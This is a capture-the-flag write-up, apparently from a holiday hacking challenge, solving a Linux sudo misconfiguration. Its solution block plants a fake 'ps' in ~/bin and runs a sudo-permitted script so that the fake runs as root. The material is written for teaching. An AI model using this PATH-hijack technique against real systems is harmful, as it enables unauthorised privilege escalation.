



# Neighborhood Watch Bypass
**Difficulty**: :fontawesome-solid-snowflake:{ .red }:fontawesome-regular-snowflake::fontawesome-regular-snowflake::fontawesome-regular-snowflake::fontawesome-regular-snowflake:<br/>



## Objective

!!! question "Request"
    Assist Kyle at the old data center with a fire alarm that just won't chill.

??? quote "Kyle"
    Anyway, I could use some help here. This fire alarm keeps going nuts but there's no fire. I checked.

    I think someone has locked us out of the system. Can you see if you can get back in?

## Hints

??? tip "Path Hijacking"
    Be careful when writing scripts that allow regular users to run them. One thing to be wary of is not using full paths to executables...these can be hijacked.

??? tip "What Are My Powers"
    You know, Sudo is a REALLY powerful tool. It allows you to run executables as ROOT!!! There is even a handy switch that will tell you what powers your user has.

## Solution

!!! quote
    EMERGENCY ALERT: Fire alarm system admin access has been compromised! The fire safety systems are experiencing interference and admin privileges have been mysteriously revoked. The neighborhood's fire protection infrastructure is at risk!
    
    ⚠️ CURRENT STATUS: Limited to standard user access only
    🔒 FIRE SAFETY SYSTEMS: Partially operational but restricted
    🎯 MISSION CRITICAL: Restore full fire alarm system control

    Your mission: Find a way to bypass the current restrictions and elevate to fire safety admin privileges. Once you regain full access, run the special command `/etc/firealarm/restore_fire_alarm` protect the Dosis neighborhood from potential emergencies.

We start in a command line terminal, and our instructions to restore control of the fire alarm system with the special command. We can also infer some initial information, namely, that we are in a Linux terminal and not Windows. 

??? tip "Which Terminal?"
    Knowing the environment that is being worked in is critical to success. In this challenge, a primary clue was in the mission description of the special command, `etc/firealarm/`. This is a classic file structure for a Linux system. Other common enumeration commands include commands like `uname -a`, `ls -la`, `whoami`, and `pwd`. This insight helps us understand which tools we will need to accomplish our task.
    

Beginning with some basic enumeration, we get a lay of the land and our abilities. The hint is telling us to use the `sudo -l` command to list what our user can do with the `sudo` command. 

```bash title="sudo -l"
    🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ sudo -l
    Matching Defaults entries for chiuser on ff7c12d99e50:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    secure_path=/home/chiuser/bin\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+="API_ENDPOINT API_PORT RESOURCE_ID
    HHCUSERNAME", env_keep+=PATH

    User chiuser may run the following commands on ff7c12d99e50:
    (root) NOPASSWD: /usr/local/bin/system_status.sh
```

We can run the `system_status.sh` script with `sudo` permissions so lets see what happens if we do.



I spent some more time poking around, looking into various directories and attempting different commands looking for privelege escalation. I also attempted creating a malicious `system_status.sh` that would run the restore script, all unsuccessfully. I felt confidant that this was my privelege escalation vector, but was hitting brick wall after brick wall. Finally, I took a break and realized I still needed more information. I needed to know what the `system_status.sh` script was doing. 

```bash linenums="1" hl_lines="12" title="System Status"
#!/bin/bash
echo "=== Dosis Neighborhood Fire Alarm System Status ==="
echo "Fire alarm system monitoring active..."
echo ""
echo "System resources (for alarm monitoring):" 
free -h
echo -e "\nDisk usage (alarm logs and recordings):"
df -h
echo -e "\nActive fire department connections:"
w
echo -e "\nFire alarm monitoring processes:"
ps aux | grep -E "(alarm|fire|monitor|safety)" | head -5 || echo "No active fire monitoring processes detected"
echo ""
echo "🔥 Fire Safety Status: All systems operational"
echo "🚨 Emergency Response: Ready"
echo "📍 Coverage Area: Dosis Neighborhood (all sectors)"
```

There it is! The script calls a number of commands without absolute paths. Specifically, there is `free`, `df`, `w`, `ps`, `grep`, `head`, and `echo`. Taken with the information from the `sudo -l` command, we now have an array of options for hijacking as our [hint](#hints) suggests. Without an absolute path, each of the commands used are a target but I chose to target the `ps` command.

!!! success "Path Hijacking"
    ```bash title="Path Hijacking"
    # Create a malicious 'ps' command in ~/bin
    echo '#!/bin/bash' > ~/bin/ps
    echo '/etc/firealarm/restore_fire_alarm' >> ~/bin/ps

    # Make it executable
    chmod +x ~/bin/ps

    # Run the sudo command
    sudo /usr/local/bin/system_status.sh
    ```

Now when the `system_status.sh` script executes with sudo rights, each of the commands are also run with elevated privileges. Without an absolute path directing the system from where to execute the command, it uses it's own default logic, methodically checking different `bin` locations until finding the command. Since `~/bin` is first in the PATH, it will be executed before the legitimate command can be, effectively using sudo privileges to execute the `restore_fire_alarm` script and restoring the neighborhood's system.

!!! success "Restored"
    

## Response

!!! quote "Kyle Parrish"
    Wow! Thank you so much! I didn't realize sudo was so powerful. Especially when misconfigured. Who knew a simple privilege escalation could unlock the whole fire safety system?

    Now... will you sudo make me a sandwich?
